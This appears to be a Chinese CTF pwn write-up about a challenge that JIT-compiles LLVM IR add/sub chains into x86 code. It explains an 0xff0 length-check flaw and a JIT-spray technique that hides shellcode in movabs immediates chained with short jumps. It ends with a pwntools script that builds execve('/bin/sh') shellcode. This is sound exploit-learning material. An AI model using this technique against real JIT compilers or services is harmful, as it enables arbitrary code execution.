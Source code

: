 - writeInc：`writeInc(this, 1)`是写入`inc rax`指令 ，`writeInc(this, -1)`是写入`dec rax`指令，三字节

  ![image-20240108192431166](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501042352527.png)

- writeOpReg：`writeOpReg(this, 1)`是写入`add rax，rbx`指令，`writeOpReg(this, -1)`是写入`sub rax，rbx`指令，三字节

  ![image-20240108192841464](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501042352528.png)

在else 循环中，首先向this[4] 中写入movabs rax,0指令，然后创建两个c++ stl的stack：一个是 `std::stack<llvm::Value *>` 类型的 stack1，初始值为最后一条指令的第一个操作数，另一个是 `std::stack<int>` 类型的 stack2，用于判断正负，其初始值为1。

进入while循环，判断this[5]<this[4]+0xff0, 也就是当写入的汇编指令长度大于`0xff0`就会退出循环，或者当`stack1`的栈为空时，会写入一个`ret`指令，然后跳转循环。

while 循环中，会弹出这两个栈的栈顶元素stack1_top、stack2_top，通过stack1_top得到我们编写的llvm IR中对应的指令，判断其是否为add 或者sub，不是则exit。

如果操作符为sub，接着取当前指令的第一个参数和第二个参数，如果第一个参数是常数，如果是±1 ，则根据`stack2_top*val`选择写入`inc rax` 或者`dec rax`指令，如果是其它常数，写入 `movabs rbx，val，add rax，rbx`指令，如果第一个参数为变量，则分别将第一个参数压入压入stack1，将stack2_top压入stack2中

对第二个参数和第一个参数的判断相同。

如果操作符是`sub`，那么就将从`stack2`栈顶取出的数`stack2_top`取反，然后再执行一遍上述过程，这样之后加上第二个操作数`val`乘上`stack2_top`的结果就相当于减去`val`了。

本题的漏洞点在于，程序开辟了0x1000长度的可执行段，程序对写入指令的判断仅限于this[5]<this[4]+0xff0，那么我们可以在最后一次while 循环中写入一个较长的指令，那么最后指令长度就会大于0xff0，让超过的几个字节中存在某个跳转指令。然后进行第二次的指令写入，这次我们让写入的指令恰好长度为0xff0，那么就会执行我们上一次写入的跳转指令。

这里利用`jmp short offset` 进行跳转（-128<offset <127),`jmp short`对应的机器码是`0xEB`，后面再加上一个字节的偏移（负数用补码）即可，一个短跳转指令共两个字节。

那么应该跳转到哪里呢？注意到mov rax/rbx, val 中的val 是可控的，于是我们可以在val写入一行行的`shellcode`，并用`nop`空指令补全六位以后，在之后写上两个字节的短跳转指令，跳转到下一行`shellcode`即可，这样就能顺利地执行到任意`shellcode`了。

这里写shellcode 脚本也是复制winmt师傅的

```python
from pwn import*
context(os = 'linux', arch = 'amd64')#,log_level='debug')
 
shellcode = [
    "mov edi, 0x68732f6e",
    "shl rdi, 24",
    "mov ebx, 0x69622f",
    "add rdi, rbx",
    "push rdi",
    "push rsp",
    "pop rdi",
    "xor rsi, rsi",
    "xor rdx, rdx",
    "push 59",
    "pop rax",
    "syscall"
]


for sc in shellcode:
    print(u64(asm(sc).ljust(6, b'\x90') +asm("jmp $-19")))  //8+3+2+6=19
print(u16(asm("jmp $-50")))                                 //13+13+13+3+8=50
```
